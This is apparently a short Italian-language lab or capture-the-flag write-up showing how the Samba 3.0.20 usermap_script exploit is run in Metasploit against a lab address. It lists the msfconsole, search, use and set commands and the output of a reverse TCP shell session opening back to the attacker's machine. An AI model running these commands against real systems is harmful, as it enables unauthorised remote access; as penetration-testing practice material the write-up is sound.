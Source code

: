 ## ✅ Exploit: Samba 3.0.20 - usermap_script

### 🔎 Comando iniziale in Metasploit
```bash
msfconsole
search Samba 3.0.20

##🚀 Configurazione exploit

use exploit/multi/samba/usermap_script
set RHOSTS 10.129.151.196
set LHOST <tuo_IP_tun0>
run

##📤 Output finale

[*] Started reverse TCP handler on 10.10.14.81:4444 
[*] Command shell session 1 opened (10.10.14.81:4444 -> 10.129.151.196:48261) at 2025-05-23 09:45:47 -0500

✅ Risultato: Shell remota ottenuta con successo sfruttando una vulnerabilità nota in Samba 3.0.20.


